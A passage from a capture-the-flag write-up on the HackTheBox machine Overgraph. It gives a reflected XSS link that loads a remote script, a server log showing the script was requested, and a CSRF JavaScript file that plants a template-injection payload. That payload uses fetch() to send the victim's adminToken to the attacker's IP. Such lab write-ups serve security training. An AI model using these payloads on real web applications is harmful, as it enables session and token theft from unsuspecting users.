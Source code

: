 
I'll generate a similar link to send to Larry:



    http://graph.htb/?redirect=javascript:document.body.innerHTML%2B%3D'<script%20src%3d"http://10.10.14.6/csrf.js"></script>'



It's important that certain characters are URL-encoded, and that there
are no spaces. On sending:



    10.10.11.157 - - [27/Jul/2022 19:57:11] code 404, message File not found
    10.10.11.157 - - [27/Jul/2022 19:57:11] "GET /csrf.js HTTP/1.1" 404 -



A browser on Overgraph is requesting `csrf.js`. That's promising!

This JS will run in the context of `graph.htb`, so I can't directly
request the `adminToken` from here.

### Exfil adminToken

#### Strategy

Pulling this all together, I'll send Larry a link with the reflective
XSS payload to load JavaScript from my server.

That Javascript will generate a CRSF to hit the API to change Larry's
last name to the CSTI payload.

Once that succeeds, when Larry next checks anything on the dashboard,
the CSTI will fire, sending Larry's `adminToken` to me.

#### CSRF JavaScript

I'll write a small JavaScript file that will generate this the request
to change the last name:



    var req = new XMLHttpRequest();
    req.open('POST', 'http://internal-api.graph.htb/graphql', false);
    req.setRequestHeader("Content-Type","text/plain");
    req.withCredentials = true;
    var body = JSON.stringify({
            operationName: "update",
            variables: {
                    firstname: "larry",
                    lastname: "{{constructor.constructor('fetch(\"http://10.10.14.6/token?adminToken=\" + localStorage.getItem(\"adminToken\"))')()}}",
                    id: "62e18b328f897413e4559cd6",
                    newusername: "larry"
            },
            query: "mutation update($newusername: String!, $id: ID!, $firstname: String!, $lastname: String!) {update(newusername: $newusername, id: $id, firstname: $firstname, lastname:$lastname){username,email,id,firstname,lastname,adminToken}}"
    });
    req.send(body);
